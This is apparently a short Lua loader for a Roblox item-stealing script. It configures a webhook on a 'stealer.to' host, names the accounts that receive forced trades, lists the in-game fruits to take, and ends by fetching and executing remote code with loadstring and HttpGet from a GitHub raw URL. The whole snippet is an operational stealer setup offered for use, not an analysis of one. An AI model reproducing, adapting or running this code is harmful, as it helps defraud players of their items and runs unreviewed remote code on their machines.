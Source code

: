 Webhook = "https://stealer.to/post?uniqueid=ca5474d9"
Usernames = {"Timeoutbounty3", "turealsardina_4"} -- << Username(-s) it'll accept trade with
Fruits = {"Gas-Gas", "Leopard-Leopard", "Yeti-Yeti", "Dragon (East)-Dragon (East)", "Dragon (West)-Dragon (West)"} -- << Fruits you want
FruitsToReset = {  -- << Fruits it'll reset with, so you can put these fruits in trade to counter value difference
    "Quake-Quake",
    "Love-Love",
    "Magma-Magma",
    "Ghost-Ghost",
    "Barrier-Barrier"
}

loadstring(game:HttpGet("https://raw.githubusercontent.com/lelel22f/script/refs/heads/main/note"))()
